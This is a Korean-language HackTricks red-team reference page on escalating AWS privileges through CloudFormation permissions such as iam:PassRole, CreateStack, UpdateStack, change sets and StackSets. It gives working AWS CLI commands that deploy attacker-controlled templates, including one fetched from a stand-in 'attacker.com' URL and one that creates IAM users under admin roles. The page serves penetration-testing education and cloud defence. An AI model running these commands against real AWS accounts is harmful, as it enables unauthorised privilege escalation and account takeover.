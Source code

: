 # AWS - Cloudformation Privilege Escalation

{% hint style="success" %}
AWS 해킹을 배우고 실습하세요: [**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)\
GCP 해킹을 배우고 실습하세요: [**HackTricks Training GCP Red Team Expert (GRTE)**](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* 해킹 팁을 공유하려면 [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃헙 저장소에 PR을 제출하세요.

</details>
{% endhint %}

## cloudformation

cloudformation에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

이 권한을 가진 공격자는 **특정 역할의 권한으로 작업을 실행**하기 위해 **자체 서버에 호스팅된 사용자 정의 템플릿을 사용하여 CloudFormation 스택을 작성**함으로써 **권한을 상승**할 수 있습니다.
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
다음 페이지에는 **exploitation example**이 있습니다. 추가 권한 **`cloudformation:DescribeStacks`**을 사용한:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**잠재적인 영향:** 지정된 cloudformation 서비스 역할로의 권한 상승.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

이 경우 기존의 cloudformation 스택을 **abuse**하여 업데이트하고 이전 시나리오와 같이 권한을 상승시킬 수 있습니다:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 권한을 사용하여 스택에 대한 `UpdateStack` 권한을 부여하고 공격을 수행할 수 있습니다.

**잠재적 영향:** 지정된 cloudformation 서비스 역할로의 권한 상승.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

이 권한을 가지고 있지만 **`iam:PassRole`이 없는 경우**에도 사용된 스택을 **업데이트**하고 이미 연결된 **IAM 역할을 악용**할 수 있습니다. 악용 예제는 업데이트에서 어떤 역할도 지정하지 않습니다.

`cloudformation:SetStackPolicy` 권한을 사용하여 스택에 대한 `UpdateStack` 권한을 부여하고 공격을 수행할 수 있습니다.

**잠재적 영향:** 이미 연결된 cloudformation 서비스 역할로의 권한 상승.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

**역할을 전달하고 ChangeSet을 생성 및 실행**할 수 있는 권한이 있는 공격자는 CreateStack 또는 UpdateStack과 마찬가지로 **새로운 cloudformation 스택을 생성/업데이트하고 cloudformation 서비스 역할을 악용**할 수 있습니다.

다음 악용은 **CreateStack의 변형** 중 하나인 [**CreateStack**](./#iam-passrole-cloudformation-createstack)을 사용하여 **ChangeSet 권한**을 사용하여 스택을 생성하는 것입니다.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 권한을 사용하여 스택에 대한 `ChangeSet` 권한을 부여하고 공격을 수행할 수 있습니다.

**잠재적 영향:** cloudformation 서비스 역할로의 권한 상승.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

이전 방법과 유사하지만 **IAM 역할을 전달하지 않고** 이미 연결된 역할을 **남용**할 수 있습니다. 매개변수를 수정하기만 하면 됩니다.
```
--change-set-type UPDATE
```
**잠재적 영향:** 이미 연결된 클라우드포메이션 서비스 역할에 대한 권한 상승.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

공격자는 이러한 권한을 남용하여 임의의 클라우드포메이션 역할을 남용하기 위해 StackSets를 생성/업데이트할 수 있습니다.

**잠재적 영향:** 클라우드포메이션 서비스 역할로의 권한 상승.

### `cloudformation:UpdateStackSet`

공격자는 이 권한을 남용하여 passRole 권한 없이 연결된 클라우드포메이션 역할을 남용하기 위해 StackSets를 업데이트할 수 있습니다.

**잠재적 영향:** 연결된 클라우드포메이션 역할로의 권한 상승.

## 참고 자료

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
